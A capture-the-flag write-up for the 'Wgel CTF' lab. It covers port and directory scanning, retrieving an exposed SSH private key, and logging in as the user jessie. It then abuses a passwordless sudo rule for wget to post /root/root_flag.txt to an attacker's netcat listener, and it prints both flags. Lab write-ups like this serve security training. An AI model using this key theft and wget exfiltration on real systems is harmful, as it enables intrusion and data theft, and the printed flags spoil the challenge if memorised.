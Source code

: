 ```yaml
---
custom_edit_url: null
---
```


## Task 1: Wgel CTF
### User flag
Let's scan the target using `nmap`.
```
$ nmap -sC -sV 10.10.137.42
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-07 10:58 IST
Nmap scan report for 10.10.137.42
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.74 seconds
```
There are two open ports:

| Port | Service |
| :-: | :-: |
| 22 | ssh |
| 80 | http |
 
Let's check the `/index.html` page.

![2](https://github.com/Knign/Write-ups/assets/110326359/13405dca-4698-414d-b09a-38e72616c8b5)

We can view the page source using `CTRL+U`.

![3](https://github.com/Knign/Write-ups/assets/110326359/72cc6185-ca28-4cf0-8c12-523147d43078)

Let's scan all the directories using `gobuster`.
```
$ gobuster dir -u http://10.10.137.42 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.137.42
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 11374]
/server-status        (Status: 403) [Size: 277]
/sitemap              (Status: 301) [Size: 314] [--> http://10.10.137.42/sitemap/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
We can visit the `/sitemap` page using our browser.
The webpage made my browser crash as soon as I visited it.

We can search one layer deeper.
```
$ gobuster dir -u http://10.10.137.42/sitemap -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.137.42/sitemap
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.ssh                 (Status: 301) [Size: 319] [--> http://10.10.137.42/sitemap/.ssh/]
/css                  (Status: 301) [Size: 318] [--> http://10.10.137.42/sitemap/css/]
/fonts                (Status: 301) [Size: 320] [--> http://10.10.137.42/sitemap/fonts/]
/images               (Status: 301) [Size: 321] [--> http://10.10.137.42/sitemap/images/]
/index.html           (Status: 200) [Size: 21080]
/js                   (Status: 301) [Size: 317] [--> http://10.10.137.42/sitemap/js/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
We can now visit `/sitemap/.ssh` using our browser.

![4](https://github.com/Knign/Write-ups/assets/110326359/e250cbca-f702-4409-ba8d-10ec1d1184f1)

Let's download the `id_rsa` file using `wget`.
```
$ wget http://10.10.137.42/sitemap/.ssh/id_rsa
--2023-12-07 11:47:42--  http://10.10.137.42/sitemap/.ssh/id_rsa
Connecting to 10.10.137.42:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1675 (1.6K)
Saving to: ‘id_rsa’

id_rsa                                                     100%[========================================================================================================================================>]   1.64K  --.-KB/s    in 0.1s    

2023-12-07 11:47:43 (13.6 KB/s) - ‘id_rsa’ saved [1675/1675]
```
- Let's change the permissions on the `id_rsa` file.
```
$ sudo chmod 700 id_rsa
```
Now we can login as `jessie`.
```
$ ssh -i id_rsa jessie@10.10.137.42
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ 
```
Let's read the user flag.
```
jessie@CorpOne:~$ cat /home/jessie/Documents/user_flag.txt
057c67131c3d5e42dd5cd3075b198ff6
```
### Answer
```
057c67131c3d5e42dd5cd3075b198ff6
```

&nbsp;

### Root flag
Let's check the permissions `jessie` has.
```
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```
So we can post a file to our machine as `jessie` without using a password.
Let's start a listener using `nc`.
```
$ nc -nlvp 9999            
listening on [any] 9999 ...
```
Let's send the file now.
```
jessie@CorpOne:~$ sudo /usr/bin/wget --post-file=/root/root_flag.txt http://10.17.48.138:9999
--2023-12-07 08:58:16--  http://10.17.48.138:9999/
Connecting to 10.17.48.138:9999... connected.
HTTP request sent, awaiting response... 
```
We can go back to check the listener.
```
$ nc -nlvp 9999       
listening on [any] 9999 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.137.42] 57776
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.17.48.138:9999
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

b1b968b37519ad1daa6408188649263d
```
### Answer
```
b1b968b37519ad1daa6408188649263d
```
